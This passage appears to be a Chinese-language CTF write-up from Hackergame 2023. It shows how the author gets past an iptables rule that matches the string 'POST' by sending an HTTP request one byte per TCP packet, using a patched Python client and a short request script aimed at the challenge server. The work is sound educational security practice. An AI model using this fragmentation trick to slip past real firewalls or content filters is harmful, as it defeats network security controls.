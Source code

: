> - [OpenVPN 配置文件](https://hack.lug.ustc.edu.cn/media/4e97494e-3937-5248-a2fe-69978d94d2cf/hg-guest.ovpn)
>
>    点击下方的「打开/下载题目」按钮，下载附件。附件可以用于在 Docker 中复现题目的防火墙环境，其中 `main.go` 并非题目核心内容，仅供参考和测试，与实际运行的程序有所不同。
>    
>    **[打开/下载题目](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/Komm%2C süsser Flagge/files/iptables-flag.tar.gz)**
>    
>    



##### 我的 POST

看到`iptables`里的匹配是对TCP数据包进行完整的`POST`字符串匹配，直觉想是不是可以编码替换，或者拆分数据包。
包装好的HTTP库可能不够用，找了找用Python有用TCP实现HTTP协议的现有轮子[700行代码, 用python实现一个HTTP客户端 - 终末之冬 - 博客园 (cnblogs.com)](https://www.cnblogs.com/q1214367903/p/13531859.html)，也许可以自定义。

问了下ChatGPT说是确实可以用`Packet Fragmentation`，搜了搜工具有个`fragroute`，但看了看完全不会用。

后面找到了`Scapy`，很强大，可以各种自定义包发送。但它太强大了，不适合我的段位，学了半天用不会。

兜兜转转还是回到上面的Python轮子。修改`HTTPConnection`里的`send`方法：

```python
def send(self, data: bytes) -> None:
    if self.sock is None:
        self.connect()

    # self.sock.sendall(data)
    
    for b in data: # 一个字节一个字节发包
        self.sock.sendall(bytes([b]))
```

请求代码：

```python
from client import HTTPConnection

dest = "202.38.93.111"
port = 18080


def fetch(conn: HTTPConnection, url: str = '/') -> None:
    body = "TOKEN"
    conn.request('POST', url, body=body)
    res = conn.get_response()
    print(res.read())


connection = HTTPConnection(dest, port)

fetch(connection)

```
